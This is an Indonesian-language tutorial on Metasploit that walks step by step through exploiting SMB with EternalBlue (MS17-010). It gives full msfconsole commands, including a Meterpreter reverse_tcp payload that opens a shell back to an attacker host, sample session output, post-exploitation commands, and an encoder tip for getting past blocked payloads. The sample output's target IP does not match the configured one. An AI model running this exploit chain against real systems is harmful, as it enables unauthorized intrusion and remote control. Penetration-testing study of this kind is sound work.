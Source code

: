 # Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:
- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:
1. Pilih dan muat modul exploit
2. Tentukan target (`RHOST`, `RPORT`)
3. Pilih payload
4. Konfigurasi payload (`LHOST`, `LPORT`, `dll`)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole:

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai:

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3 - Gunakan Exploit:

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi:

```
show options
```

### Langkah 5 - Setting Target dan Payload:

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit:

```
exploit
```

Kalu berhasil output-nya akan sepertin ini:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting `RHOST`/`LHOST` |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:
1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
